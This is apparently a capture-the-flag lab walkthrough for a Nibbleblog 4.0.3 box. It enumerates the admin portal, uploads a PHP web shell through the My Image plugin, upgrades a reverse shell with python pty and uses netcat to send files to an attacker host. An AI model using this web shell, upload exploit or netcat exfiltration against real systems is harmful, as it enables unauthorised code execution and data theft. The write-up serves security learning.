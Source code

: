 
> at this point we have admin portal access, the next course of action is to attempt to elevate this access to code execution , and ultimately gain reverse shell access to the webserver

> what we know is that there is a metasploit module exploit/multi/http/nibbleblog_file_upload that will likely work for this, but we can continue to enumerate what we can see from the admin portal for other avenues of attack

## admin portal enumeration 

----


|page|Contents|
|---|----|
|Publish|making a new post,vid post, quote post, or new page.|
|Comments|shows no plublished comments|
|Manage|Allows us to manage posts,pages, and categories. We can edit and delete categories.|
|Settings|Scrolling to the bottom confirms nibbleblog vers 4.0.3 is in use, vuln, several settings avail, but none valuable|
|Themes|Allows install of new Theme from a pre-selected list|
|Plugins|Allows us to configure, install, or uninstall plugins. The My Image plugin allows us to upload an image file. possible php code upload opportunity|


> before trying vuln in metasploit lets try uploading php code through plugins, specifically My Image

- shell.php seems to upload, and triggers errors in the image processing code
-  the /content directory contains /plugins directory that contains a subdir for the my_image plugin
- /nibbleblog/content/private/plugins/my_image
	-  contains two files 
		1. db.xml
		2. image.php
> the last modified date is when we uploaded, so we confirm our upload
> the upload may have triggered errors, but since we retain .php we should have code execution and we can confirm with a curl

> the php code we uploaded to run the whoami command in bash "<?php system('whoami') ?>" responds with nibbler when you curl /nibbleblog/content/private/plugins/my_image/image.php
> this is a success

- send a reverse shell one liner via same method
- connection success but recieve dumb tty
```
/bin/sh: 0 : can't access tty; job control turned off
```
- we cant use things like su or sudo in this
- bypass this by using python to slide into an interactive terminal 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
> we now have full access to a shell in the nibbler user context, and use this to transfer files found in the home dir to attacker

```
nc -l -p 420 > file
```

```
nc <attacker ip> 420< file
```


> user.txt contains first flag



